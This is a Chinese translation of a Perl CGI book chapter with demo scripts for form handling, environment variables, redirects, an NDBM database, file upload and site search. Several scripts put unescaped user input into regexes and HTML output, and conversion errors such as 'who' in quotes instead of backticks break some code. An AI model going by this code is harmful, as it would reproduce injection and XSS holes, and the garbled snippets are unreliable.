此外，我还将介绍如何使用CGI脚本上传文件。当您不希望因用户在页面控件中输入大量文本而导致超长查询字符串发送到服务器时，这项技能非常有用。相反，您可以直接上传整个文件，这样更简单且速度更快。您可以将该文件存储在互联网服务提供商（ISP）处，或者对其进行处理——例如进行拼写检查——然后将结果返回给用户。

本章的最后两个应用将是最大的——一个网站搜索CGI应用程序和一个购物车演示。

几乎所有网络用户都熟悉网站搜索；在本章末尾的应用程序中，您将浏览网站上的可用文件以查找匹配的字符串。我为本章编写的脚本`cgisearch.cgi`将搜索您网站特定目录中的所有文件，以匹配用户想要的字符串。您可能有许多文件并希望将它们分成子目录，因此`cgisearch.cgi`也会搜索搜索目录中所有子目录的所有文件。就像任何网站搜索一样，该脚本将显示匹配文件的数量以及按匹配数排序的文件超链接列表，并指出每个列出文件中出现的匹配次数。用户只需点击相应的超链接即可访问文件。如果您希望让用户自行在网站上导航，这类实用程序非常棒。

我还将编写一个购物车演示。这只是一个演示，因为此类应用程序很复杂，必须根据您自己的库存和业务规则进行定制，但它展示了大多数购物车程序的工作方式——通过将数据保存在Cookie中。该演示将支持两页产品列表（家用和办公用品）供用户购买，以及一个购物车页面列出目前为止购买的所有物品。用户还可以点击一个按钮删除购物车中的物品。

然而，并非每个人都喜欢Cookie；事实上，许多用户禁用了浏览器的Cookie功能。许多用户发现Cookie非常烦人，因此，我还将重复展示一个*不*使用Cookie的购物车示例。

如您所见，本章将介绍大量信息。现在，是时候开始“即时解决方案”部分了。

> **提示：** 请记住，这些脚本旨在用作演示脚本。如果您想将它们安装在ISP上，我建议您增强错误检查和安全性，例如，并且在根据喜好定制脚本后，请检查它们以确保其按预期执行。

## 在重新显示的表单中初始化数据

> “天哪，”新手程序员说，“我遇到了一个非常令人沮丧的问题。用户向我的CGI脚本发送了一个表单，我返回一个带有相同表单并在页面底部添加了一些注释的页面，但表单中的控件仍然包含用户提交的数据，即使我希望它们是空的。实际上，我将它们的默认值设置为空字符串，但旧数据*仍然*重新出现。这一定是**CGI.pm**的缺陷。”“这不是缺陷，”您说，“这是一个特性，但您可以将其关闭。”

我们在上一章创建多用户聊天程序时见过这种技术，但将其作为一个独立主题是值得的，因为它确实让相当多的CGI程序员感到沮丧。当您使用**CGI.pm**并重新显示发送到脚本的表单时，**CGI.pm**会自动恢复该表单发送到脚本时所有控件中的值。这意味着即使您初始化了控件中的数据（例如使用**-value**或**-default**属性），当**CGI.pm**恢复用户输入到这些控件中的数据时，该数据将被覆盖。

要覆盖此行为，使**CGI.pm**遵守您为控件使用的默认值，请将**-override**属性设置为true，例如：

```
$co->textfield(-name=>'key',-default=>'', -override=>1);
```

在这里，我将名为**'key'**的文本字段的默认文本设置为空字符串，即使该文本字段在先前发送到脚本时包含值。

## 使用CGI环境变量检查浏览器类型等

> “我的CGI脚本创建的动态HTML依赖于浏览器，”新手程序员说。“我需要为Microsoft Internet Explorer发送一些特定的HTML，为Netscape Navigator发送不同的HTML。但是，我究竟如何才能知道我使用的是哪种浏览器？”“没问题，”您说，“只需检查

## 检查用户是否已登录
使用浏览器的**HTTP_USER_AGENT**环境变量，并为其编写合适的HTML代码。”
“嘿，”新手程序员说，“太棒了！”
CGI脚本可用的环境变量与从控制台运行的Perl脚本可用的环境变量不同。CGI脚本会在**%ENV**哈希中找到以下几类环境变量：
- **DOCUMENT_ROOT**——文档根目录
- **GATEWAY_INTERFACE**——CGI版本
- **HTTP_ACCEPT_MIME**——浏览器接受的媒体类型
- **HTTP_ACCEPT_CHARSET**——浏览器支持的字符集
- **HTTP_ACCEPT_LANGUAGE**——浏览器接受的语言（en = 英语）
- **HTTP_CONNECTION**——HTTP连接类型（例如Keep-Alive）
- **HTTP_HOST**——ISP名称
- **HTTP_USER_AGENT**——浏览器软件的名称
- **PATH**——当前路径设置
- **QUERY_STRING**——传递给脚本的内容
- **REMOTE_ADDR**——脚本主机的四字节地址
- **REMOTE_HOST**——主机的四字节地址
- **REMOTE_PORT**——正在使用的远程端口
- **REQUEST_METHOD**——HTTP请求方法，通常为**GET**
- **REQUEST_URI**——脚本的虚拟路径和名称，通常的配置方式是将该值加上**DOCUMENT_ROOT**即可得到脚本的完整限定名称
- **SCRIPT_FILENAME**——包含完整路径的CGI脚本完整限定名称
- **SCRIPT_NAME**——脚本名称，通常包含部分路径，将该值加上**DOCUMENT_ROOT**即可得到脚本的完整限定名称
- **SERVER_ADMIN**——服务器管理员的邮箱地址
- **SERVER_PORT**——服务器正在使用的端口（HTTP连接通常为80）
- **SERVER_PROTOCOL**——HTTP协议，例如HTTP/1.0或HTTP/2.0
- **SERVER_SOFTWARE**——服务器软件，例如Apache
如上所示，这个列表包含很多有趣的条目。下面的示例展示了这个CGI脚本如何输出当前的环境变量：
``` #!/usr/local/bin/perl use CGI; $co = new CGI; print $co->header, $co->start_html('CGI Environment Variables Example'), $co->center($co->h1('CGI Environment Variables Example')); foreach $key (sort keys %ENV) { print $co->b("$key=>$ENV{$key}"), $co->br; } print $co->end_html; ```
该脚本的运行结果如图24.1所示。请记住你的脚本可用的CGI环境变量有哪些，你永远不知道什么时候会用到它们，例如可以用**HTTP_USER_AGENT**来判断浏览器类型。

**图24.1** 查看CGI环境变量

## 检查用户是否已登录
> “那个该死的约翰逊，”新手程序员抱怨道，“又在我的数据文件里捣乱。只要那个该死的约翰逊登录了，我就根本没法干活。”
> “你可以写个工具来检测那个该死的约翰逊什么时候登录啊。”你说。

如果你的CGI脚本运行在Unix服务器上，你可以使用**who**等Unix工具，它可以告诉你当前有哪些用户登录了。事实上，我在第23章用过Unix的**uptime**命令。
*提示：在CGI脚本中使用Unix命令之前，我建议你先看看第22章的“重视安全”相关内容。*

接下来我会写一个示例CGI脚本，用来检测指定用户是否已登录。该脚本仅适用于Unix系统。请注意，部分ISP的Web服务器运行在专用机器上，如果shell所在机器与Web服务器是分开的，你就无法通过该脚本查到shell机器上有谁登录了。
``` #!/usr/bin/perl use CGI; $co = new CGI; print $co->header, $co->start_html("Check if someone is logged in"), $co->center ( $co->h1("Check if someone is logged in...") ), $co->p, $co->start_form, $co->center ( "Please enter the person's login name: ", $co->textfield('person'), $co->p, $co->submit('Check'), $co->reset ), $co->end_form; ```
当用户提交这个表单后，脚本会遍历**who**命令返回的每一行文本，执行**foreach**循环：
``` if ($person = $co->param('person')) { foreach ('who') { . . . } } ```
**who**命令会返回已登录用户的列表，每行的开头是用户名。也就是说我可以按照如下方式搜索目标用户：如果找到对应用户名，说明该用户确实已登录，随后即可退出程序：
``` if ($person = $co->param('person')) { foreach ('who') { if (/^$person\s/) { print $co->center ( $co->h2 ( "Yes, $person is logged in.", ) ), $co->end_html; exit; } } } ```
如果**foreach**循环执行完毕且找到了目标用户，上述代码中的消息就会显示在返回的Web页面中，随后程序退出。反之，如果**foreach**循环执行完毕但程序没有退出，说明没有找到目标用户，我会用如下消息提示这一结果：
``` if ($person = $co->param('person')) { foreach ('who') { if (/^$person\s/) { print $co->center ( $co->h2 ( "Yes, $person is logged in.", ) ), $co->end_html; exit; } } print $co->center ( $co->h2 ( "$person is not logged in, sorry.", ) ); } print $co->end_html; ```
结果如图24.2所示，本次案例中我们要查找的用户并未登录。如上所述，使用**who**、**uptime**等Unix工具会非常实用；只要你在将用户输入传递给系统命令时一定要非常、非常小心即可。
| 相关解决方案： | 对应页码： |
|---|---|
| 重视安全 | 949 |
| 使用服务器端包含 | 996 |

**图24.2** 查看用户是否已登录

## 重定向浏览器
“我迁移了自己的网页，”新手程序员说，“即使用户用的是旧URL，我也想把他们跳到我的新页面。之前我们聊过多用户聊天应用的开发时，你说过可以用客户端拉取的方式加载新网页，但这种技术还是会让用户短暂停留在旧网页上。能不能直接让浏览器跳转到新页面，不用再加载旧页面了？”
“当然可以，”你说，“你可以用重定向头。”**CGI.pm**模块可以生成HTTP重定向头，你只需要用**redirect**方法替代**header**方法即可。
``` #!/usr/local/bin/perl use CGI; $co = new CGI; print $co->redirect('http://www.cpan.org'); print $co->start_html, $co->end_html; ```
请注意，使用重定向头之后不要再添加过多代码，因为浏览器一旦看到这样的头信息，就会立即跳转到新页面。

## 数据库CGI编程
老板走过来开口说道：“我已经把大部分数据库工作外包给了外部顾问，现在需要你实现对应的接口。”
“什么意思？”你问。
“意思就是让你写一个支持互联网访问的数据库接口，”老板说，“现在就去做。”

在这个示例中，我会写一个CGI脚本，作为**NDBM文件**数据库的接口。这个名为cgidb.cgi的CGI脚本会在本章后续的列表24.1中展示。运行该脚本后会生成如图24.3所示的Web页面，你可以通过它对数据库进行读写操作。
DBM数据库文件基于哈希实现，你需要将哈希与数据库绑定才能操作它。具体细节可参阅第16章。这意味着数据库元素由键/值对组成，要向数据库添加数据时，必须同时提供键和对应的数据值。
例如，在图24.3中，我正在向数据库添加键为**drink**、值为**root beer**的元素。

**图24.3** 向数据库哈希中添加新元素。


## 第24章 CGI：创建购物车、数据库、站内搜索和文件上传功能

## 图24.4 写入数据库哈希的新元素
当用户点击图24.3中的“添加到数据库”按钮时，新的键/值对会被添加到数据库中，且cgidb.cgi会返回确认页面（如有必要也会返回错误页面），如图24.4所示。
现在新元素已经写入数据库，你可以通过指定该键的新值覆盖它，也可以在“要搜索的键”输入框中输入键来读取对应值，如图24.5所示。
当你请求与某个键关联的值并点击“查找值”按钮时，cgi.db.cgi会在数据库中搜索该键，如果找到，就会显示与该键关联的值，如图24.6所示。
如果数据库中没有该键，cgidb.cgi会告知用户“未找到匹配该键的结果”。
要使用这个CGI脚本，你需要数据库文件dbdata.dir和dbdata.pag，如果你的服务器不允许cgidb.cgi自动创建这些文件，你可以使用如下短脚本在控制台运行来创建它们。
``` 
use Fcntl; 
use NDBM_File; 
``` 

## 图24.5 从数据库哈希请求元素

## 图24.6 从数据库哈希读取元素
``` 
tie %dbhash, "NDBM_File", "dbdata", O_RDWR|O_CREAT, 0644; 
$key = 'key1'; 
$value = 'value1'; 
$dbhash{$key} = $value; 
untie %dbhash; 
``` 
cgidb.cgi文件的工作流程如下：
这个CGI脚本会呈现一个包含两个表单的页面——一个用于写入数据库，一个用于读取。我使用隐藏字段来区分这两个表单，隐藏字段中存放的文本为**"写入"**和**"读取"**，代码如下：
``` 
$co->start_form, "Key to add to the database: ", $co->textfield(-name=>'key',-default=>'', -override=>1), $co->br, "Value to add to the database: ", $co->textfield(-name=>'value',-default=>'', -override=>1), $co->br, $co->hidden(-name=>'type',-value=>'write', -override=>1), $co->br, $co->center( $co->submit('Add to database'), $co->reset ), $co->end_form, $co->hr, $co->b("Look up a value in the database..."), $co->start_form, "Key to search for: ",$co->textfield(-name=>'key',-default=>'', -override=>1), $co->br, $co->hidden(-name=>'type',-value=>'read', -override=>1), 
``` 
``` 
$co->br, $co->center( $co->submit('Look up value'), $co->reset ), $co->end_form, 
``` 
现在，当表单数据被发送到cgidb.cgi时，我可以通过检查该隐藏字段判断是否有要写入数据库的新数据，如果有，就按如下方式写入：
``` 
if($co->param()) { 
print $co->b("Results..."); 
if($co->param('type') eq 'write') { 
tie %dbhash, "NDBM_File", "dbdata", O_RDWR|O_CREAT, 0644; 
$key = $co->param('key'); 
$value = $co->param('value'); 
$dbhash{$key} = $value; 
untie %dbhash; 
if ($!) { 
print $co->center($co->h3("There was an error: $!")); 
} else { 
print $co->center($co->h3("$key->$value stored in the database")); 
} 
} 
``` 
如你所见，这部分操作非常简单。另一方面，如果用户想要从数据库读取数据，我会按如下方式读取：
``` 
} else { 
tie %dbhash, "NDBM_File", "dbdata", O_RDWR|O_CREAT, 0644; 
$key = $co->param('key'); 
$value = $dbhash{$key}; 
``` 
``` 
if ($value) { 
if ($!) { 
print $co->center($co->h3("There was an error: $!")); 
} else { 
print $co->center($co->h3("$key=>$value")); 
} 
} else { 
print $co->center($co->h3("No match found for that key")); 
} 
untie %dbhash; 
} 
print $co->hr; 
} 
``` 
如你所见，cgidb.cgi是一个相对简单的脚本，仅提供了基础的数据库支持作为该主题的入门示例。你当然可以通过使用DBM文件进一步完善它，也可以通过CPAN提供的接口对接商用SQL数据库；具体细节请参阅第16章。
## 清单24.1 cgidb.cgi文件
``` 
#!/usr/local/bin/perl 
use Fcntl; 
use NDBM_File; 
use CGI; 
$co = new CGI; 
print $co->header, $co->start_html('CGI Functions Example'), $co->center($co->h1('CGI Database Example')), $co->hr, $co->b("Add a key/value pair to the database..."), $co->start_form, "Key to add to the database: ", 
``` 
``` 
$co->textfield(-name=>'key',-default=>'', -override=>1), $co->br, "Value to add to the database: ", $co->textfield(-name=>'value',-default=>'', -override=>1), $co->br, $co->hidden(-name=>'type',-value=>'write', -override=>1), $co->br, $co->center( $co->submit('Add to database'), $co->reset ), $co->end_form, $co->hr, $co->b("Look up a value in the database..."), $co->start_form, "Key to search for: ",$co->textfield(-name=>'key',-default=>'', -override=>1), $co->br, $co->hidden(-name=>'type',-value=>'read', -override=>1), $co->br, $co->center( $co->submit('Look up value'), $co->reset ), $co->end_form, $co->hr; 
if($co->param()) { 
print $co->b("Results..."); 
if($co->param('type') eq 'write') { 
tie %dbhash, "NDBM_File", "dbdata", O_RDWR|O_CREAT, 0644; 
``` 
### 即时解决方案
``` 
$key = $co->param('key'); 
$value = $co->param('value'); 
$dbhash{$key} = $value; 
untie %dbhash; 
if ($!) { 
print $co->center($co->h3("There was an error: $!")); 
} else { 
print $co->center($co->h3("$key=>$value stored in the database")); 
} 
} else { 
tie %dbhash, "NDBM_File", "dbdata", O_RDWR|O_CREAT, 0644; 
$key = $co->param('key'); 
$value = $dbhash{$key}; 
if ($value) { 
if ($!) { 
print $co->center($co->h3("There was an error: $!")); 
} else { 
print $co->center($co->h3("$key=>$value")); 
} 
} else { 
print $co->center($co->h3("No match found for that key")); 
} 
untie %dbhash; 
} 
print $co->hr; 
} 
print $co->end_html; 
``` 
## 24. CGI：创建购物车、数据库、站内搜索和文件上传功能 ## 1033
### 相关解决方案
| 相关解决方案 | 所在页码： |
| --- | --- |
| 写入数据库文件 | 723 |
| 读取数据库文件 | 724 |
| 执行SQL | 727 |
## 上传文件
> “嗯，”新手程序员说，“我需要让用户上传一个3MB的小说，以便用户使用我新开发的在线拼写检查工具，但我总不能要求用户把整本小说都输入到HTML文本区域控件里吧？”“没错，”你说，“你最好用文件字段控件。”这个示例cgiupload.cgi展示了如何使用CGI脚本上传文件，非常实用。文件上传完成后，cgiupload.cgi会在网页中显示该文件。用户原本就可以通过浏览网页下载文件，现在你还可以让他们上传文件。cgiupload.cgi生成的网页如图24.7所示。你可以使用该CGI脚本生成的页面中的“浏览”按钮来选择要上传的文件，也可以手动输入文件的路径和名称。当你点击“上传”按钮时，该文件就会被上传，并显示在返回的网页中，如图24.8所示。cgiupload.cgi的代码如清单24.2所示。这里有几个需要注意的地方。其中之一是，要使用文件字段控件，你需要使用多部分表单，而非标准表单。你可以通过CGI.pm的start_multipart_form方法创建多部分表单，在本例中它会替代**start_form**方法。你可以在cgiupload.cgi中使用**CGI.pm filefield**方法来创建文件字段，代码如下：

**图24.7** 指定要上传的文件
## 图24.8 上传文件
``` 
$co = new CGI; 
if (!$co->param()) { 
print $co->header, $co->start_html('CGI File Upload Example'), $co->center ( 
$co->br, $co->center ( 
$co->h1 ( 'CGI File Upload Example' ) ), 
$co->start_multipart_form, 
$co->filefield(-name=>'filename', -size=>30), 
$co->br, 
$co->submit(-value=>'Upload'), 
$co->reset, 
``` 

## 24. CGI：创建购物车、数据库、站内搜索和文件上传功能

## 第24章 CGI：创建购物车、数据库、网站搜索与文件上传

```
$co->end_form
),
$co->hr;
```

你可以将以下属性与 **filefield** 方法配合使用：**-maxLength**、**-name**、**-onChange**、**-onFocus**、**-onBlur**、**-onSelect**、**-override**、**-force**、**-size**、**-value** 以及 **-default**。

当用户点击“上传”按钮时，你可以使用 **CGI.pm param** 方法获取一个对应于文件字段的值，该值可以用作文件句柄来读取上传的文件。在本例中，我将逐行读取整个文件到一个数组中，如下所示：

```
} else {
    print
        $co->header,
        $co->start_html('CGI File Upload Example'),
        $co->center
        (
            $co->h1
            (
                'CGI File Upload Example'
            )
        );
```

```
$file = $co->param('filename');
@data = <$file>;
```

现在，上传的文件已存储在数组 **@data** 中，如果需要，我可以将其写入磁盘。在本例中，我将在新的网页中显示 cgiupload.cgi 所呈现的上传文件中的文本。由于浏览器会忽略显示文本中的换行符，我将用 **<P>** 标签替换换行符（另一个选项是使用预格式化 HTML 标签 **<PRE>**；你可以通过 **CGI.pm pre** 方法创建此标签），并在网页中如下显示文件：

```
} else {
    print
        $co->header,
        $co->start_html('CGI File Upload Example'),
        $co->center
        (
            $co->h1
            (
                'CGI File Upload Example'
            )
        );
```

```
$file = $co->param('filename');
@data = <$file>;

foreach (@data) {
    s/\n/<br>/g;
}

print
    $co->center($co->h2("Here's the contents of $file...")),
    "@data";
```

请注意，尽管此代码仅将换行符替换为 **<br>** 标签，但它对于使用 **\r\n** 组合的文件（如 MS-DOS 系统中的文件）同样有效，因为浏览器在格式化文本时会忽略 **\r** 和 **\n**。

好了，就是这样；现在，你已经可以按需上传文件了。

### 清单 24.2 cgiupload.cgi

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

if (!$co->param())
{
    print
        $co->header,
        $co->start_html('CGI File Upload Example'),
        $co->center
        (
            $co->br,
            $co->center($co->h1('CGI File Upload Example')),
            $co->start_multipart_form,
            $co->filefield(-name=>'filename', -size=>30),
            $co->br,
            $co->submit(-value=>'Upload'),
            $co->reset,
            $co->end_form
         ),
      $co->hr;
} else {
   print
      $co->header,
         $co->start_html('CGI File Upload Example'),
         $co->center($co->h1('CGI File Upload Example'));
      $file = $co->param('filename');
      @data = <$file>;
      foreach (@data) {
         s/\n/<br>/g;
      }
      print
         $co->center($co->h2("Here's the contents of $file...")),
         "@data";
}
print $co->end_html;
```

## 网站搜索——查找匹配的字符串

整个技术支持团队都来了，看起来疲惫不堪。“我们无法处理所有的技术支持请求，”他们说，“而且从来没有人阅读网站上的帮助文档。”新手程序员插话说：“那是因为没人能找到正确的文档。为什么你们不开发一个程序，在所有这些文档中搜索你想要查找的关键词或短语呢？”突然间，所有人都看着你。“哦哦，”你说，“我很忙。你们自己写吧。不，我是认真的。”

一些最受欢迎的 CGI 应用程序是网站搜索工具，它们允许你搜索网站上所有与特定字符串匹配的文件。如果不具备在数千个可用网页中进行搜索的能力，用户在某些大型网站中将会迷失方向。

在本主题中，我将编写一个名为 cgisearch.cgi 的网站搜索程序，它允许用户在你的网站中搜索包含他们正在查找的文本字符串的文件；cgisearch.cgi 的代码出现在本章后面的清单 24.3 中。

你需要向此脚本指定要搜索的目录，它会扫描该目录中的所有文件。实际上，如果你有很多文件，你可能希望使用子目录来组织它们，因此 cgisearch.cgi 也会自动搜索搜索目录的所有子目录。

搜索完成后，cgisearch.cgi 会生成一个网页，指示找到的匹配文件数量，并按照匹配次数降序列出这些文件的超链接——指示每个文件中出现的匹配次数——正如你对网站搜索程序的期望一样。（请注意，cgisearch.cgi 只能搜索权限设置得足够低、CGI 脚本可以读取的文件。）

你可以从图 24.9 中看到用户视角下的样子。如你所见，用户只需输入他或她想要搜索的文本并点击“搜索”按钮即可。（在图中，我搜索了单词 *is*。）

当用户点击“搜索”按钮时，cgisearch.cgi 会搜索搜索目录及其下的文件，并返回你在图 24.10 中看到的页面。如你所见，此脚本显示了匹配文件的数量以及每个文件的超链接。它还按照匹配次数降序排列匹配的文件，并在文件的超链接旁指示该数字。要打开文件，用户只需点击超链接即可。

要使用此脚本（或修改后使用），你需要指定要搜索的目录。你通过在脚本开头为 **$base_address** 和 **$base_url** 变量赋值来实现：

```
#!/usr/local/bin/perl

use CGI;
use File::Find;

$base_address = '/www/username/search';
$base_url = 'http://www.yourserver.com/~username/search';
```

变量说明如下：

-   **$base_address** 是包含你要搜索文件的目录的完全限定路径。你通过 FTP 程序（例如，/www/username/search 或 /files/users/www/username/search 等）将这些文件传输到此目录。在 Unix 中，此地址通常以正斜杠 (/) 开头。请记住，此地址不要以正斜杠结尾。

-   **$base_url** 是搜索目录本身的完整 URL（例如，**www.yourserver.com/~username/search**）。例如，如果搜索目录中有一个名为 welcome.html 的网页，你可以在浏览器中输入 "$base_url/welcome.html" 来查看该网页。请不要在 URL 末尾加上正斜杠 (/)。

我现在将介绍 cgisearch.cgi 的工作原理。首先，我创建一个表单来接受要搜索的字符串：

```
#!/usr/local/bin/perl

use CGI;
use File::Find;

$base_address = '/www/username/search';
$base_url = 'http://www.yourserver.com/~username/search';

$co = new CGI;

if (!$co->param())
{
    print
    $co->header,
    $co->start_html('CGI Site Search Example'),
    $co->center
    (
        $co->br,
        $co->h1('CGI Site Search Example'),
        $co->start_form,
        "String to search for: ",$co->textfield('key'),
        $co->p,
        $co->submit(-value=>'Search'),
        $co->reset,
        $co->end_form
    ),
    $co->hr;
```

当用户向脚本发送要搜索的字符串时，我将该字符串存储在名为 **$key** 的变量中。为了遍历当前目录和所有子目录中的所有文件，我将使用在大多数 ISP Perl 安装中都可用的 **File::Find** 模块：

```
} else {
    print
    $co->header,
    $co->start_html('CGI Site Search Example'),
    $co->center
    (
        $co->h1('CGI Site Search Example')
    );

    $key = $co->param('key');

    find \&finder, $base_address;
```

在这里，我向 **File::Find** 模块的 **find** 函数传递一个子程序的引用（我将其命名为 **finder**），该子程序包含为每个文件执行的代码，以及搜索目录的地址 **$base_address**。**File::Find** 模块将为搜索目录及其下方目录中的每个文件调用 **finder** 子程序。（有关 **File::Find** 的更多详细信息以及如何自定义 **finder** 子程序（例如，仅搜索文本文件）的方法，请参阅第 14 章。）

你的 ISP 应该已经安装了 **File::Find**，但如果没有，你可以用以下代码替换 cgisearch.cgi 中的此代码：

```
find \&finder, $base_address;
```

## 第24章 CGI：使用CGI创建购物车、数据库、站点搜索和文件上传功能

使用以下代码搜索当前目录：
``` while ($file = <*>) { open FILEHANDLE, "<$file"; $size = -s $file; read FILEHANDLE, $_, ($size); $number = s/${key}/${key}/g; close FILEHANDLE; if ($number) {$hash{$file} = $number} } ```

> 注意：你可以扩展这段替换代码以同时搜索子目录，只需使用`-d`文件操作符检查文件是否为目录，并使用Perl的`cwd`函数切换到该目录即可。

cgisearch.cgi中实际扫描文件的工作由**查找器**子例程完成，该子例程会对每个待搜索文件调用一次。待搜索的当前文件名称存储在**$File::Find::name**中，在确认该文件不是目录后（如果你只想搜索特定类型的文件，还可以检查特定的文件扩展名），我会打开文件并一次性读取其全部内容（如果你的文件长达数兆字节，你可能需要重新考虑这种方法）：
``` sub finder { if (!-d $File::Find::name) { open FILEHANDLE, "<$File::Find::name"; $size = -s $File::Find::name; $_ = ''; read FILEHANDLE, $_, $size; ```

接下来，我会计算搜索字符串**$key**的匹配次数，如果存在匹配项，就会将当前文件的名称（包含相对于搜索目录的路径）作为哈希表的键存储。我将该键对应的值设置为找到的匹配次数，代码如下：
``` sub finder { if (!-d $File::Find::name) { open FILEHANDLE, "<$File::Find::name"; $size = -s $File::Find::name; $_ = ''; read FILEHANDLE, $_, $size; close FILEHANDLE; $number = 0; $number++ while /${key}/g; $file = $File::Find::name; $length = length ($base_address) + 1; $file =~ /^.{${length}}(.*)/; if ($number) {$hash{$1} = $number} } } ```

> 提示：如果你希望搜索不区分大小写，可以将*i*修饰符添加到代码`$number++ while /${key}/g`中。

